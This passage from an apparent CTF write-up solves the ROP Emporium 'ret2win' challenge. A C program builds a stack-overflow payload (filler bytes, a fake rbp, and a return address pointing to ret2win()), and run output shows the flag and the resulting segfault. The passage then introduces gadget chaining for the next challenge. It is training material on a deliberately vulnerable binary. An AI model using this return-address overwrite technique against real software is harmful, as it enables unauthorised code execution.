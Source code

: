 {{< highlight C >}}
#include <stdio.h>
#include <stdint.h>

int main(){
	FILE *fd = fopen("data", "wb");

	// useless content of the stack buffer, 32 bytes large
	for(int i=0; i<32; ++i){
		fputc(0xAA, fd);
	}
	// useless 8 bytes to overwrite rbp
	uint64_t rbp = 0xCAFEBABE;
	fwrite(&rbp, sizeof(rbp), 1, fd);
	// overwrite return address with address of ret2win()
	uint64_t ret2win = 0x00400811;
	fwrite(&ret2win, sizeof(ret2win), 1, fd);

	fclose(fd);
	return 0;
}
{{< / highlight >}}

Let's see if it works.

```
$ ./ret2win <data
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Yep, it does, and it crashes the program.
We corrupted the stack which leads to a segfault.
When the function _ret2win_ finishes execution, it tries to return to its caller with the `ret` instruction.
As we did not use `call` to enter the function, there is no valid return address on the stack.
It will interpret whatever is on top of the stack as return address and that's just asking for trouble.
It does not really concern us.
We got our flag and solved the first challenge.


# Chaining Gadgets

The first challenge was just a warm-up, teaching you how to redirect control flow by overwriting the return address of a function.
The [second challenge 'split'](https://ropemporium.com/challenge/split.html)
teaches us more concepts of return oriented programming, particularly the usage of gadgets and how to chain them together to perform arbitrary operations.
